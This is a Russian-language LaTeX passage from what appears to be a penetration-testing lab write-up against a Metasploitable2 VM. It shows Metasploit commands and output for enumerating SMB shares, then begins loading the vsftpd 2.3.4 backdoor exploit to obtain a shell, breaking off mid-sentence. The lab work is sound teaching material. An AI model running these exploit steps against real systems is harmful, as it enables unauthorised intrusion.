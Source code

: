 \documentclass[10pt,a4paper]{article}
\begin{document}
\subsubsection{Получить список директорий в общем доступе по протоколу SMB}

Перечислить доступные директории можно при помощи модуля smb\_enumshares.
 
\begin{verbatim}[frame=single]
use auxiliary/scanner/smb/smb_enumshares
\end{verbatim}

Как и в предыдущем случае, для определения целевого хоста и указания количества потоков используются переменные RHOSTS и THREADS соответственно. Результат на рисунке 5. Открыты стандартные ресурсы, видимо используются настройки samba по умолчанию.

\begin{lstlisting}
msf auxiliary(vnc_login) > use auxiliary/scanner/smb/smb_enumshares
msf auxiliary(smb_enumshares) > set RHOSTS 192.168.1.105
RHOSTS => 192.168.1.105
msf auxiliary(smb_enumshares) > set THREADS 4
THREADS => 4
msf auxiliary(smb_enumshares) > run

[+] 192.168.1.105:139 - print$ - (DISK) Printer Drivers
[+] 192.168.1.105:139 - tmp - (DISK) oh noes!
[+] 192.168.1.105:139 - opt - (DISK) 
[+] 192.168.1.105:139 - IPC$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[+] 192.168.1.105:139 - ADMIN$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

\end{lstlisting}

\subsubsection{Получить консоль используя уязвимость в vsftpd}

Для vsFTPd версии 2.3.4, входящего в состав Metasploitable2, уже есть готовый экспоит.

Для начала, его нужно загрузить

\begin{verbatim}
use exploit/unix/ftp/vsftpd_234_backdoor
\end{verbatim}

Кроме этого, эксплоит использует набор команд, которые помещены в отдельный файл и их необходимо передать через переменню PAYLOAD. Файл находится по пути cdm/unix/interact, это можно определить используя команду
\end{document}
